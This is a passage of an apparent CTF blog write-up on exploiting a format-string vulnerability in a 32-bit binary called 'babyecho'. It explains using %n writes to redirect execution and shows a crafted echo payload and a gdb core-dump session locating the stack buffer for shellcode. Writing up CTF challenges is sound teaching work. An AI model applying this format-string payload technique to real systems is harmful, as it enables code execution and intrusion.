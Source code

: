 I'm happy to report that I'm doing this all by hand to write the blog, and I got that working on my first try. :)

A quick word of warning: if you're trying to jump to an address like 0x44434241, you have to write "41 42 43 44" to memory. To write the 0x41, as usual you'll want to use %49x%7$n. That means that 65 (0x41) bytes have been output so far. To then output 0x42, you need one more byte written. The problem is that %1x can output anything between 1 and 8 bytes, because it won't truncate the output. You have to use either "%257x" or just a single byte, like "A". I fought with that problem for quite some time during this level...

## Let's summarize what we've done...

I feel like I've written a lot. According to my editor, I'm at 708 lines right now. And it's all pretty crazy!

So here's a summary of where we are before we get to the last step...

- We used %n and a static address to change the max length of the input string
- We gave it four addresses to edit, which wind up on the stack (see func\_a)
- We use %NNx, where NN = the number of bytes we want to waste, to ensure %n writes the proper value
- We use %7$n to write to the first address, %8$n to write to the second address, %9$n to write to the third address, and %10$n to write to the fourth, with a %NNx between each of them to make sure we waste the appropriate number of bytes

And now for the final step...

## Going somewhere useful

For the last part, instead of jumping to 0x41414141 or 0x41424344, we're going to jump to some shellcode. Shellcode is, basically, "code that spawns a shell". I normally wind up Googling for the exact shellcode I want, like "32-bit Linux connect back shellcode", and grabbing something that looks legit. That's not exactly a great practice in general, because who knows what kind of backdoors there are, but for a CTF it's not a big deal (to me, at least :) ).

Before we worry about shellcode, though, we have to figure out where to stash it!

It turns out, for this level, the stack is executable. That makes life easy - I wrote an exploit that ROPed to mprotect() to make it executable before running the shellcode, then realized that was totally unnecessary.

Since we can access the buffer with "%x" in the format string, it means the buffer is definitely on the stack somewhere. That means we can find it exactly like we found everything else - open up the corefile and start looking at the stack pointer (esp).

Let's use the same exploit as we just used to crash it, but this time we'll put some text after that we can search for:

```

$ <span class="in">echo -e '\x91\xc6\xff\xff%99x%7$n\n''\x4c\xc1\xff\xff''\x4d\xc1\xff\xff''\x4e\xc1\xff\xff''\x4f\xc1\xff\xff''%52x%7$n''%255x%8$n''%255x%9$n''%255x%10$n''AAAAAAAAAAAAAAAAAAAAAAAAAA' | ./babyecho > /dev/null</span>
Segmentation fault (core dumped)

$ <span class="in">gdb -q ./babyecho ./core</span>
#0  0x41424344 in ?? ()
(gdb) <span class="in">x/10000xw $esp</span>
0xffffc150:     0x00000003      0x00000000      0x00000000      0x00000000
0xffffc160:     0x00000000      0x00000000      0x00000000      0x00000000
...
0xffffc6c0:     0x39257835      0x32256e24      0x25783535      0x6e243031
0xffffc6d0:     0x41414141      0x41414141      0x41414141      0x41414141
```
